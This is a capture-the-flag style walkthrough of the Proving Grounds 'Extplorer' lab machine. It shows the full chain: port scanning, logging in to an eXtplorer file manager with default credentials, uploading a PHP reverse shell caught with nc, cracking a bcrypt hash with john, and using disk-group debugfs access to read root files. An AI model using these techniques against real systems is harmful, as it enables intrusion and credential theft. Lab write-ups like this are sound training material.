 ```yaml
---
date: '2024-10-24'
before : '2024-10-17'
after : '2024-10-24'
title: 'Proving Grounds : Extplorer'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Extplorer machine from Proving Grounds'
thumbnail: '../contentImages/crane/1.png'
---
```



Starting with nmap scan
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p- -T4
[sudo] password for hlee: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:31 EDT
Nmap scan report for 192.168.155.16
Host is up (0.027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 96.92 seconds
```
As I visited port 80
![image](../contentImages/extplorer/3.png)
This is a wordpress application. Let's continue with enumeration

## 2. Initial Foothold

I initially started with nmap wordpress scan.
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p80 -T4 --script=http-wordpress-*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:38 EDT
Nmap scan report for 192.168.155.16
Host is up (0.025s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.1

Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
                                                                
```
I found akismet 5.1 plugin, but nothing useful I guess.

If I try to set the config like this:
![image](../contentImages/extplorer/4.png)

Error pops up because server doesnt have sql service running. I opened port 8000 and tried it once more with MY_IP:8000
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 41808
```
So it actually tries to connect us. But naturally it isn't a shell. Dead end here.

I found with ffuf an interesting endpoint, /filemanager. As I visited:
![image](../contentImages/extplorer/5.png)
Our machine name was kind of a straight hint I guess. There were several exploits for extplorer. Since we don't have a version name, we need to brute-force for a little bit.

We could log in with default credential admin:admin.
![image](../contentImages/extplorer/6.png)

We can see every files under /wp-admin and also can upload a file. If we can upload a php file and also **access** it, we can simply upload a revshell! I uploaded revshell.php which I created with Reverse shell generator and visited

> 192.168.155.16/wp-admin/revshell.php

Then I got a shell!
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 45140
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 16:40:26 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

But I still can't get local.txt.

## 3. PrivEsc to dora

![image](../contentImages/extplorer/7.png)
We found a hash for dora user. Let's try to crack it!

```
┌──(.venv)─(hlee㉿kali)-[~/oscp/offsec/extplorer]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2024-10-24 13:01) 0.4975g/s 752.2p/s 752.2c/s 752.2C/s gonzalez..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
doaremon is actually my favorite character :)

Then I did su dora.

## 4. PrivEsc to root

I found that dora is:
```
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```
disk group is not a normal one. Let's google about it.

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

![image](../contentImages/extplorer/8.png)
It's **almost** root privilege, it says! Let's follow the steps and gain root privilege
```
dora@dora:/$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
...
```
I assumed that the first Filesystem is our mounted "/".
```
dora@dora:/$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs:  cd /root
debugfs:  ls
ls
 131076  (12) .    2  (12) ..    265478  (12) .ssh    265574  (12) snap   
 131077  (16) .bashrc    131078  (16) .profile    142303  (24) .bash_history   
 265709  (16) .cache    265469  (36) .local    132363  (20) proof.txt   
 132531  (3908) flag4.txt   
debugfs:  cat proof.txt
cat proof.txt
5afd64bd1c723ea7f400751b13d9ad05
```
Done!

Lesson learned: check for group privilege! (bad habit: only checking for sudo -l, pspy and suid permission)

---
## Source

- Proving Grounds
- Me!